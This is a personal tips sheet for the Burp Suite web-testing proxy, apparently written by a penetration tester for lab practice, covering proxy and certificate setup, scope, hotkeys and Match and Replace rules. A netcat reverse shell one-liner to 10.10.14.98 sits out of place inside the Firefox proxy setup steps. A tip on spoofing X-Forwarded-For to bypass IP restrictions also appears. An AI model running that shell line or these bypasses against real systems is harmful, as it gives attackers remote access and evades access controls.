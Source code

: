 # Burpsuite

This is not a full detailed guide of how to use burpsuite more a selection of tricks and tips, for **Community Version Only**. It not really a cheatsheet and more a sheet of helpful stuff. There are full courses of how to use this avaliable from Portswigger, but their are also massive amounts of free resources and relatively cheap resources to learn and practice from. This Helphsheet is more just shortcuts, but is intended to make avaliable some of the functionality you may require extract from GUI menu to a scenario:   
*Problem X -> Do this with Burpsuite(plus another applications)*  
It is also not a showcase of plugins I like or support.  
Some of the tips very simple for simple problems, sometimes that is simply required.

[Official Documentation](https://portswigger.net/burp/documentation/desktop)

# Cool things for the cmd [more]
- Builtin Browser, never setup the burp certifact with your own browser every again!
Go to `Project settings -> no sandbox for builtin browser`


## FoxyProxy/Firefox proxy
Firefox menu -> Settings -> Network Settings click Settings
Select manual proxy configuration:
	HTTP proxy: 127.0.0.1 8080
	uncheck: Also use this proxy for FTP and HTTPS 
	delete: ANYTHING in the "No proxy for" field
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.98 8888 >/tmp/f

## Burp Suite CA
To intercept and analyze HTTPS traffic, BS has Certificate Authority and uses it to issue on-th-fly certifactes for each website that we visit and pass through Burp.

http://burp -> CA Certificate 
save the file cacert.der to `/home/<user>/Downloads`
GOTO Certificate manager in Firefox -> Import it!

## Bypassing Proxy for (some) HTTPS Traffic

`Proxy -> Options -> TLS Pass Through -> Add`

Need pass through for:
- Targeting
- Required mutual authenication or HTTP Public Key Pinning

## Bypass intercepting HTTPS traffic by configurating to forward traffics towards websites without decrypting and re-encrypting them first.

## SOCKS Proxy in Burp
`User options -> SOCKS Proxy -> 127.0.0.1 & port number` then tick the `Use Proxy`

## Too much data -> Add Scope to include/exclude
`Target -> Scope -> Target scope`, to add manually or 
right click and add under main `Target Site map` tab.

## How is the site structured -> Sitemap
`Target -> Site map` Click the `>` and view in tree form.

## "Bad Request This combination of host and port requires TLS" -> Read Url
Use https in url you fool!

## Software is preventing site X browser from connecting -> Setup certificates in browser
Goto the very good visual guide on [THM](https://tryhackme.com/room/burpsuitebasics) - Task 10.
## Burp Intercepting Everything -> use the embedded Browser
If you do not want manage proxys on host OS or inside a browser, just use the embedded browser. Goto
`Project options -> Misc -> Embedded Browser` and check the  `Allow the embedded browser to run without a sandbox`.

**This is a solution to a problem I have yet to encounter but is here to solve a problem at a later date**
```
SSL/TLS  -> SSL pass through feature
[official-ps/blog/ssl-pass-through](https://portswigger.net/blog/ssl-pass-through-in-burp)
```

## Shortcuts
For customisation go to `User Options > Misc > Edit Hotkeys`, for default shortcuts:

**Navigation**
Shortcut | Function  
--- | ---
`Ctrl + Shift + D` | Switch to the Dashboard  
`Ctrl + Shift + T`   |  Switch to the Target tab  
`Ctrl + Shift + P   ` | Switch to the Proxy tab  
`Ctrl + Shift + I   ` | Switch to the Intruder tab  
`Ctrl + Shift + R   ` | Switch to the Repeater tab

**Proxy**
Shortcut | Function  
--- | ---
`Ctrl + F` | Forward an intercepted message
`Ctrl + L` | Drop an intercepted message
`Ctrl + D` | Delete an intercepted message

## Intruder Payloads
- Recursive Grep = allows extract each paylaod from the response to the previous request - useful when you need to extract useful data or deliever an exploit 

## Need to Spoof your IP in burp?
- `Proxy -> Option -> Match and Replace`
-  Requires you to find a custom IP Header
	1. Leave Match field empty
	2. In the Replace field: `X-Forwarded-For: 127.0.0.1`

[Match and Replace](https://portswigger.net/burp/documentation/desktop/tutorials/using-match-and-replace): "*Note: In the wild, the de-facto standard header `X-Forwarded-For` is often used for this purpose, but you may encounter websites that use different custom headers. These are normally applied to your requests by an intermediary server, such as a load balancer or other reverse proxy belonging to a CDN, for example.*"

[r3d-buck3t Medium Article](https://medium.com/r3d-buck3t/bypass-ip-restrictions-with-burp-suite-fb4c72ec8e9c)

## Can't get a page you fuzzed?
- `Proxy -> Option -> Match and Replace`
	1. Change Type: Responder Header
	2. Leave Match field: `Location: AnnoyingPage.Lang`
	3. In the Replace field: empty



## References

[Official Documentation](https://portswigger.net/burp/documentation/desktop)
[THM basics](https://tryhackme.com/room/burpsuitebasics)
[official-ps/blog/ssl-pass-through](https://portswigger.net/blog/ssl-pass-through-in-burp)
[cybrary](https://www.cybrary.it/blog/burp-suite-tutorial-part-2-essential-shortcuts-in-burp-suite-proxy-for-more/)
[Match and Replace](https://portswigger.net/burp/documentation/desktop/tutorials/using-match-and-replace)
[r3d-buck3t Medium Article IP bypassing](https://medium.com/r3d-buck3t/bypass-ip-restrictions-with-burp-suite-fb4c72ec8e9c)

